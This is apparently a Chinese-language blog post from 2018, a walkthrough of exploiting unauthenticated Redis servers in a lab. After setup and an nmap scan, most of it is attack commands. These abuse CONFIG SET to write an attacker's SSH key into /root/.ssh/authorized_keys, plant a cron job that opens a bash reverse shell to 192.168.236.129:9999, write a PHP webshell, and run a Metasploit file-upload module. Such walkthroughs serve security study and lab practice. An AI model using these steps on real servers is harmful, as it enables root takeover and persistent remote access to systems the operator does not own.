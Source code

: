```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
title: Redis未授权访问
date:   2018-07-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```


---
### 0x00 环境搭建


#### (1)下载安装

```
cd /tmp
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make

cd src
./redis-server
```

#### (2)远程连接

Kali：

```
./redis-cli -h 192.168.111.135
```

Windows：

下载地址：

https://github.com/dmajkic/redis/downloads

```
.\redis-cli -h 192.168.111.135
```

#### (3)常用命令

查看所有键：

```
KEYS *
```

将变量x的值设为test：

```
set x "test"
```

获取默认的redis目录：

```
CONFIG GET dir
```

获取rdb文件名：

```
CONFIG GET dbfilename
```

---
### 0x01 漏洞概述


默认情况下，Redis会绑定在 0.0.0.0:6379，并且对公网开放，不需要密码认证

攻击者可以借此未授权访问Redis以及读取Redis的数据，利用Redis自身的提供的config命令可以进行写文件操作

具体有以下利用方式：

- 写入ssh公钥远程连接
- 写入计划任务反弹shell
- 写入webshell

---
### 0x02 漏洞扫描

#### 1、手工验证

```
.\redis-cli -h 192.168.111.135
```

输入`INFO server`，有回显，代表存在漏洞

#### 2、批量扫描

```
nmap -v -n -Pn -p 6379 -sV --scriptredis-info 192.168.111.1/24
```

redis-info为nmap专用于检查该漏洞的插件，kali下默认包含

---
### 0x03 漏洞利用


#### (1)写入ssh公钥远程连接

利用条件：

- redis服务使用root账号启动
- redis服务无密码认证或者使用的是弱口令进行认证
- 服务器开放了ssh服务，而且允许使用密钥登录

在本地生成公私钥文件：

```
ssh-keygen –t rsa
```

生成公钥文件：`~/.ssh/id_rsa.pub`

生成私钥文件：`~/.ssh/id_rsa`

将公钥写入 foo.txt 文件:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接redis写入文件:

```
cat foo.txt | redis-cli -h 192.168.111.135 -x set crackit
redis-cli -h 192.168.111.135
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
```

通过ssh远程连接：

```
ssh –i  id_rsa root@192.168.111.135
```

####  (2)写入计划任务反弹shell

使用telnet远程登录redis

```
telnet 192.168.111.135 6379
```

添加计划任务：

```
config set dir /var/spool/cron/
set -.- "\n\n\n* * * * * bash -i &gt;& /dev/tcp/192.168.236.129/9999 0&gt;&1\n\n\n"
```

本地执行nc监听端口：

```
nc -v -l -p 9999
```

#### (3)写入webshell

利用条件：

- redis服务无密码认证或者使用的是弱口令进行认证
- 支持web并且知道路径


在路径/home/wwwroot/default/写入webshell redis.php：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```


#### 补充1：如果通过set写入失败

先查看当前有哪些键：

```
KEYS *
```

查看某个键：

```
GET "phptest"
```

删除某个键：

```
DEL "phptest"
```

删除其他影响写入信息的键，并且需要关闭压缩功能：

```
CONFIG SETrdbcompression no
```

#### 补充2：利用msf

```
use auxiliary/scanner/redis/file_upload
set DISABLE_RDBCOMPRESSION yes
setRHOSTS 192.168.111.135
setRemoteFile /tmp/webshell
setLocalFile /home/test.txt
run
```


